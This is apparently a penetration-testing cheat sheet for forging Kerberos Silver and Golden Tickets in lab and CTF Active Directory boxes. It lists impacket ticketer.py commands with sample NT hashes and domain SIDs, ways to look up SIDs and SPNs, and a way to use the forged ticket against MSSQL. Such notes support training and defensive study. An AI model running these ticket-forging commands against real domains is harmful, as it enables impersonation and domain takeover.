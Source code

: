 # 🥈 Silver Ticket Attack

Mostly we will have **SeImpersonatePrivilege** after getting a shell with xp\_cmdshell and can use a potato attack. Sometimes intended path can be enumerating a database.

Refer PG Practice Nagota and Escape from HTB. Just because the ticket is generated won't mean it works. Check the domain in SPN:

```
get-addomain
```

<figure><img src="../../../.gitbook/assets/Silver Ticket Attack.png" alt=""><figcaption></figcaption></figure>

This is what we are gonna use for silver ticket. If credentials acquired from Kerberoasting CHECK GetUserSPNs.py output for SPN

**General syntax:**

```
ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
```

**Without spn Golden ticket will be created**:

```
ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb administrator
```

**With SPN specified we get the ticket for a specific service**:&#x20;

We can use a fake user as well.

```
ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn TotesLegit/dc.sequel.htb administrator
```

To get existing spns:

```
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName | Select-Object ServicePrincipalName
```

Example to get the silver ticket for a specific service:

```
ticketer.py -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com Administrator
```

## Get SID

To get Domain SID

```
nxc ldap DC1.scrm.local -u <user> -p <pass> -k --get-sid
```

or

```
lookupsid.py test.local/john:password123@10.10.10.1
```

or

```
get-addomain
```

or

```
python3 getPac.py -targetUser administrator domain/user:pass
```

Now use the domain-sid Can also be done with ldap

## MSSQL

```
KRB5CCNAME=administrator.ccache mssqlclient.py -k Administrator@dc.sequel.htb
```

Just empty enter for password. It is normal to get user as svc\_mssql or similar when xp\_cmdshell whoami is run.

```
export KRB5CCNAME=administrator.ccache
```

Check if ticket present with `klist`

Then edit `/etc/krb5user.conf`:] Example:

```
[libdefaults]
	default_realm = NAGOYA-INDUSTRIES.COM
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
	fcc-mit-ticketflags = true

[realms]	
	NAGOYA-INDUSTRIES.COM = {
		kdc = nagoya.nagoya-industries.com
	}

[domain_realm]
	.nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```
